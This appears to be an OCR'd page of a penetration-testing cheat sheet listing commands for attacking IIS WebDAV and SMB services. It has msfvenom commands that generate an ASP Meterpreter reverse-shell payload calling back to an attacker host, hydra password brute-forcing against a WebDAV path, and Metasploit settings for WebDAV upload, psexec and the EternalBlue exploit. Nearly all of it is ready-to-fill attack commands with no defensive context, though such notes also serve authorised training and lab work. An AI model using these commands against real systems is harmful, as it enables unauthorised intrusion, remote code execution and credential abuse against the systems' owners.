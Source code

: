 **IIS WEBDAV**

```
# IIS WEBDAV
davtest -url <URL>
davtest -auth <USER>:<PW> -url http://<TARGET_IP>/webdav

cadaver [OPTIONS] <URL>

nmap -p 80 --script http-enum -sV <TARGET_IP>
```

```
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f <file_type> > shell.asp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f asp > shell.asp
```

```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <TARGET_IP> http-get /webdav/
```

```
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler
use exploit/windows/iis/iis_webdav_upload_asp

set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

set HttpUsername <USER>
set HttpPassword <PW>
set PATH /webdav/metasploit.asp
```

**SMB**



**Nmap**

```
nmap -p 445 -sV -sC <TARGET_IP>

nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>
```

**Metasploit**

```
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/smb/smb_login
use exploit/windows/smb/psexec
use exploit/windows/smb/ms17_010_eternalblue

set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false

set SMBUser <USER>
set SMBPass <PW>
```